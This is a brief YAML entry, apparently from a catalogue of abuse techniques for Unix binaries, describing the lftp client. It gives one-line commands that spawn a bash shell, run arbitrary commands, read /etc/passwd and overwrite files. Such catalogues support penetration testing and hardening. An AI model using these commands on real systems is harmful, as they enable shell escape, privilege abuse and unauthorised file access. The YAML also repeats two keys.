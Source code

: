 ```yaml
---
description: LFTP is a file transfer client (FTP and other protocols).
functions:
  shell:
    - description: Stack commands that include launching a shell.
      code: |
        lftp -c '!bash'
  command:
    - description: Stack commands that include running a command.
      code: |
        lftp -c '!whoami'
  shell:
    - description: Stack commands that include launching a shell.
      code: |
        lftp -e '!bash'
  command:
    - description: Stack commands that include running a command.
      code: |
        lftp -e '!whoami'
  file-read:
    - description: Read an arbitrary file by specifying it as a script file.
      code: |
        lftp -f /etc/passwd
  file-write:
    - description: Overwrite a file, or create an empty file.
      code: |
        lftp -c 'mirror --script=lftp.script'
---
```

